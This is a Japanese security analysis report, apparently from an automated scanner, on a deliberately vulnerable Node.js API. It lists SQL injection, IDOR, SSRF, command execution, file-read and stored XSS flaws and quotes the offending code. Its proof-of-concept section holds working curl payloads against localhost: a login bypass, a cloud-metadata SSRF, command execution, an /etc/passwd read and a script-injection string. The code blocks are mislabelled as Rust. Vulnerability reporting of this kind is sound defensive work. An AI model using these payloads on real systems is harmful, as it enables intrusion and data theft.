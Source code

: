 # 解析レポート

![中高信頼度](https://img.shields.io/badge/信頼度-中高-orange) **信頼度スコア: 80**

## 脆弱性タイプ

- `SQLI`
- `IDOR`
- `SSRF`
- `RCE`
- `XSS`
- `LFI`

## 解析結果

以下のエンドポイントで重大なセキュリティ脆弱性を確認しました。

1. SQLインジェクション（/auth/login, /users/search, /user/:id, /comments/create）
   - ユーザー入力をエスケープせずにSQLクエリに直接埋め込んでいるため、不正なクエリを実行可能です。

2. IDOR（/user/:id, /logs/:user_id）
   - 認可チェックがなく、他ユーザーのIDを指定するだけでデータにアクセスできます。

3. SSRF（/ssrf/fetch, /scraper/url）
   - 外部URLを検証なしにリクエストするため、内部リソースへのアクセスが可能です。

4. RCE（/system/execute, /deserialize/eval）
   - execSyncでユーザー入力を直接実行、evalによるデシリアライズで任意コード実行を許します。

5. LFI（/file/read）
   - 任意のパスをfs.readFileSyncに渡しているため、サーバ内のファイルを漏洩させることができます。

6. Stored XSS（/comments/create）
   - ユーザー投稿をサニタイズせずに保存し、ブラウザで表示するとスクリプトが実行されます。

これらはすべて容易に悪用可能で、システム全体の機密性・完全性・可用性を著しく損ないます。

## PoC（概念実証コード）

```text
1. SQLインジェクション（/auth/login）
curl -X POST http://localhost:3000/api/auth/login \
  -H 'Content-Type: application/json' \
  -d '{"username":"admin' --","password":"foo"}'

2. IDOR（/user/:id）
curl http://localhost:3000/api/user/1

3. SSRF（/ssrf/fetch）
curl -X POST http://localhost:3000/api/ssrf/fetch \
  -H 'Content-Type: application/json' \
  -d '{"url":"http://169.254.169.254/latest/meta-data"}'

4. RCE（/system/execute）
curl -X POST http://localhost:3000/api/system/execute \
  -H 'Content-Type: application/json' \
  -d '{"command":"ls","args":["/"]}'

5. LFI（/file/read）
curl http://localhost:3000/api/file/read?path=/etc/passwd

6. Stored XSS（/comments/create）
curl -X POST http://localhost:3000/api/comments/create \
  -H 'Content-Type: application/json' \
  -d '{"content":"<script>alert(1)</script>","author":"attacker"}'
```

## 関連コードコンテキスト

### 関数名: SQL Injection in /auth/login
- 理由: ユーザー入力をエスケープせずにSQLクエリに直接埋め込んでいる
- パス: repo/api.js
```rust
const query = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;
```

### 関数名: IDOR in /user/:id
- 理由: 認可チェックなしで任意のユーザーIDを指定できる
- パス: repo/api.js
```rust
const query = `SELECT * FROM users WHERE id = ${userId}`;
```

### 関数名: SSRF in /ssrf/fetch
- 理由: 外部URLを検証せずにリクエストしている
- パス: repo/api.js
```rust
const response = await axios.get(url, { timeout });
```

### 関数名: Command Injection in /system/execute
- 理由: ユーザー入力を直接シェルコマンドとして実行している
- パス: repo/api.js
```rust
const output = execSync(fullCommand, { encoding: 'utf8', timeout: 5000 });
```

### 関数名: LFI in /file/read
- 理由: ユーザー指定のパスからファイルを読み込んでいる
- パス: repo/api.js
```rust
const content = fs.readFileSync(filePath, 'utf8');
```

### 関数名: Stored XSS in /comments/create
- 理由: 投稿内容をサニタイズせずに保存している
- パス: repo/api.js
```rust
const query = `INSERT INTO comments (content, author, created_at) VALUES ('${content}', '${author}', datetime('now'))`;
```

## 解析ノート

Identified multiple entry points with user-controlled inputs leading to SQL injection, IDOR, SSRF, RCE, LFI, and XSS. No sanitization or authorization checks present. Use simple curl commands to demonstrate each vulnerability.

